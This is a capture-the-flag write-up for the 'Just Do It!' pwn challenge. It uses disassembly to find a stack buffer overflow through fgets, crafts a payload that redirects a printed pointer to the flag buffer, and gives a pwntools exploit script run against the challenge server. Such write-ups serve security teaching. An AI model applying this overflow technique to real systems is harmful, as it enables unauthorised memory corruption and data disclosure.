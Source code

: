 # Just Do It!

Unfortunately because of a Calc 3 Final, I had to wait untill the Wenesday after the ctf to solve this.

Let's take a look at the binary:
```
$	file just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped
```

```
$	pwn checksec just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
[*] '/Hackery/west/doit/just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we can see that it is a 32 bit binary, with a non executable stack. Let's try to run it.

```
$	./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
file open error.
: No such file or directory
```

So it is complainning about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in IDA:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char input; // [sp+8h] [bp-20h]@7
  FILE *stream; // [sp+18h] [bp-10h]@1
  char *output_message; // [sp+1Ch] [bp-Ch]@1

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 2, 0);
  output_message = failed_message;
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  if ( !fgets(&input, 32, stdin) )
  {
    perror("input error.\n");
    exit(0);
  }
  if ( !strcmp(&input, PASSWORD) )
    output_message = success_message;
  puts(output_message);
  return 0;
}
```

So we can see that the file it is trying to open is `flag.txt`. We can also see that this binary will essentially prompt you for a password,  and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check:

```
87C8 aP@ssw0rd       db 'P@SSW0RD',0         ; DATA XREF: .data:PASSWORDo
```

So we can see that the string it is checking for is `P@SSW0RD`.  Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.

```
$	python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:
```
-00000020 input           db ?
-0000001F                 db ? ; undefined
-0000001E                 db ? ; undefined
-0000001D                 db ? ; undefined
-0000001C                 db ? ; undefined
-0000001B                 db ? ; undefined
-0000001A                 db ? ; undefined
-00000019                 db ? ; undefined
-00000018                 db ? ; undefined
-00000017                 db ? ; undefined
-00000016                 db ? ; undefined
-00000015                 db ? ; undefined
-00000014                 db ? ; undefined
-00000013                 db ? ; undefined
-00000012                 db ? ; undefined
-00000011                 db ? ; undefined
-00000010 stream          dd ?                    ; offset
-0000000C output_message  dd ?                    ; offset
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004 var_4           dd ?
+00000000  s              db 8 dup(?)
```
 
 So we can see that it can hold 16 bytes worth of data (0x20 - 0x10 = 16). So we effictively have a buffer overflow vulnerabillity with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `output_message` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```
  
  So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `output_message` with that address and then it should print out the contents of `flag`, which should be the flag.
  
```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```
  
  So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `input` and `output_message` (0x20 - 0x0c = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:
  
```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$	python exploit.py 
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
```

Just like that, we captured the flag!

 
 
